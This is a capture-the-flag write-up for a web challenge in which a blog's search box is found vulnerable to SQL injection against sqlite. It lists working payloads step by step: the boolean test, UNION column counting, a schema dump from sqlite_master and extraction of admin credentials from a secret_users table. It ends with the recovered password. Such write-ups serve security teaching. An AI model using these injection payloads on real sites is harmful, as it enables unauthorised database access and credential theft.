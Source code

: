 Blog
==============

Get the admin password from this website (link).

Hints:
 - Not much you can do except search
 - Explore the database
 - The blog is using sqlite

Writeup
--------------

The website is just a very simple blog site with a search function.
Nothing too interesting to note there.

This is a web challenge, so the first thing to do is to try an SQL
injection.

We can confirm that the web app is vulnerable by searching `'OR 1=1; --`
and observing that this matches all articles, but `'AND 1=0; --` matches
no articles.  So, we can imagine the query looks something like:

    query = "SELECT * FROM articles WHERE title LIKE '%" + search + "%';"

One of the hints is to explore the database, and that the database in
question is an SQL database.  So, let's see how many fields the database
is querying.  Trying the following payloads:

    ' UNION ALL SELECT 1; -- [HTTP 500 ISE]
    ' UNION ALL SELECT 1,2; -- [HTTP 500 ISE]
    ' UNION ALL SELECT 1,2,3; -- [HTTP 200 OK]

On the last query, you can see that you successfully inserted a row into
the result.  The schema for each table in a sqlite database is stored in
the `sql` row of the `sqlite_master` table.  Let's take a look, shall we?

    ' AND 1=0 UNION ALL SELECT sql,'','' FROM sqlite_master; --

The page shows us the database schema:

    CREATE TABLE posts (title text, contents text, date text)
    CREATE TABLE comments (contents text, author text)
    CREATE TABLE secret_users (username text, password text)

Well, the secret_users seems suspicious.  Let's take a look in there:

    ' AND 1=0 UNION ALL SELECT username,password,'' FROM secret_users; --

And the response gives us the key:

    admin: p0uatl0et3ubsw2r
